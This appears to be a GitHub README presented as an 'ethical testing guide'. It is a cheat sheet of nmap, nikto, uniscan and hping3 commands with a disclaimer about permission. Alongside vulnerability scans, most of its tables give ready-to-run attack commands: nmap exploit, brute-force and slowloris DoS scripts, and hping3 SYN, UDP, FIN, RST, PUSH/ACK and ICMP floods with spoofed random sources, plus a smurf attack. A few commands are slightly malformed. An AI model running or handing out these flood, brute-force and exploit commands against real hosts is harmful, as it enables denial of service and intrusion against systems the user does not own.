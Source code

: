 # This is an Ethical Testing Guide

The following Guid includes commands in the following:

* #### `nmap`

* #### `nikto`

* #### `uniscan`

* #### `hping3`


***
Author has submitted the code for educational purposes only. Author doesn't hold any responsibility for wrong usage of this intellectual property! 

```diff
-  NEVER PERFORM ETHICAL HACKING WITHOUT THE WRITTEN PERMISSION FROM THE PRODUCT OWNER, YOU HAVE BEEN WARNED!
```
***

## Nmap

Nmap is a security scanner, originally written by Gordon Lyon, used to discover hosts and services on a computer network, thus building a "map" of the network.


| Test Case | Command |
| :--- | :--- |
| Scan the target for vulnerabilities | `nmap -Pn --script vuln <target.com>` | 
| Actively exploit detected vulnerabilities | `nmap --script exploit -Pn <target.com` |
| Brute Force Passwords | `nmap --script brute -Pn <target.com>` |
| Test if target is vulnerable to DoS | `nmap --script dos -Pn <target.com>` |
| Perform DoS attack | `nmap -max-parallelism 750 -Pn --script http-slowloris --script-args` |


## Nikto

Nikto Web Scanner is a Web server scanner that tests Web servers for dangerous files/CGIs, outdated server software and other problems. It performs generic and server type specific checks. It also captures and prints any cookies received

| Test Case | Command |
| :---  | :--- |
| SQL Injection | `nikto -Tuning 9 -h <target.com>` |
| DoS Check | `nikto -Tuning 6 -h <target.com>` |
| Perform check on suspicious files, misconfiguration leaks, etc. | `nikto -Display 1234EP -o report.html -Format htm -Tuning 123bde -host <target.com>` |

## Uniscan

Uniscan is a simple Remote File Include, Local File Include and Remote Command Execution vulnerability scanner.

| Test Case | Command |
| :---  | :--- |
| Perform file checks | `uniscan -u <target.com> -w` |
| Perform `robots.txt` and `sitemap.xml` checks | `uniscan -u <target.com> -e` |
| Perform Dynamic Check | `uniscan -u <target.com> -d` |
| Perform Static Check | `uniscan -u <target.com> -s` |
| Perform Stress Check | `uniscan -u <target.com> -r` |

## Hping3 

*Additional reading prior to performing actions below is strongly recommended! You have been warned!

hping is a command-line oriented TCP/IP packet assembler/analyzer. The interface is inspired to the ping(8) unix command, but hping isn’t only able to send ICMP echo requests. It supports TCP, UDP, ICMP and RAW-IP protocols, has a traceroute mode, the ability to send files between a covered channel, and many other features.

| Test Case | Command |
| :--- | :---  | 
| Check whether a host is alive (when PING is blocked) - sends an RST response | `hping3 -c 2 -V -p 80 -s 5050 -a <target.com>` |
| Perform DoS attack | `hping3 -c 20000 -d 120 -S -w 64 -p TARGET_PORT --flood --rand-source TARGET_SITE` |
| UDP flood | `hping3 --flood --rand-source --udp -p TARGET_PORT TARGET_IP` |
| TCP FIN flood | `hping3 --flood --rand-source -F -p TARGET_PORT TARGET_IP` |
| TCP RST flood | `hping3 --flood --rand-source -R -p TARGET_PORT TARGET_IP` |
| PUSH and ACK floods | `hping3 --flood --rand-source -PA -p TARGET_PORT TARGET_IP` |
| ICMP and IGMP floods | `hping3 --flood --rand-source -1 -p TARGET_PORT TARGET_IP` |
| Smurf attack | `hping3 --icmp --spoof TARGET_IP BROADCAST_IP` |

***
```diff
- Additional studying and training is recommended below this point
```
***


